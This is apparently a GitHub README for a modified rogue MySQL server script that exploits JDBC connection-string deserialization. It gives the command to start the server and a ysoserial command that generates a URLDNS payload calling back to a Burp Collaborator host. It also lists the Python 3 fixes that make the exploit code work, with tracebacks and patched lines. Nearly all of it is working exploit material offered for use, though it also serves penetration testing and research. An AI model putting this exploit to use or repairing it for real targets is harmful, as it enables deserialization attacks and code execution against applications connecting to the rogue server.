 # rogue-mysql-server
Modified version of the 'rogue-mysql-server.py' script from https://landgrey.me/blog/11/ to exploit JDBC connection string deserialization. All credit to the original author.

## Usage:

```py
python3 rogue-mysql-server.py
```

## POC Generation w/ ysoserial

```
java -jar ysoserial.jar URLDNS 'http://blahblahblah.burpcollaborator.net' > /tmp/payload.ser
```

## Modifications

Quick reference of the changes that I needed to make in order to get this PoC working from the original blog post.

### File Location

Put the file in `tmp` because why not

```
deserialization_file = r'/tmp/payload.ser'
```

### Float Conversion

Due to this error:

```py
Traceback (most recent call last):
  File "rogue-mysql-server.py", line 102, in <module>
    run_mysql_server()
  File "rogue-mysql-server.py", line 63, in run_mysql_server
    _payload_hex = str(hex(len(deserialization_payload)/2)).replace('0x', '').zfill(4)
TypeError: 'float' object cannot be interpreted as an integer
```

Updated these lines to use `//` to do float division

```py
_payload_hex = str(hex(len(deserialization_payload)//2)).replace('0x', '').zfill(4)
```

```py
_data_hex = str(hex(len(deserialization_payload)//2 + 5)).
```

### String and Byte Concatenation

`deserialization_payload` is raw bytes and needs to be decoded into a `str` before we can concatenate. This is to fix this traceback.

```py
Traceback (most recent call last):
  File "rogue-mysql-server.py", line 102, in <module>
    run_mysql_server()
  File "rogue-mysql-server.py", line 67, in run_mysql_server
    _data += _data_length + '04' + '0131fc' + _payload_length + deserialization_payload
TypeError: can only concatenate str (not "bytes") to str
```

We change

```py
_data += _data_length + '04' + '0131fc' + _payload_length + deserialization_payload
```

to

```py
_data += _data_length + '04' + '0131fc' + _payload_length + deserialization_payload.decode()
```
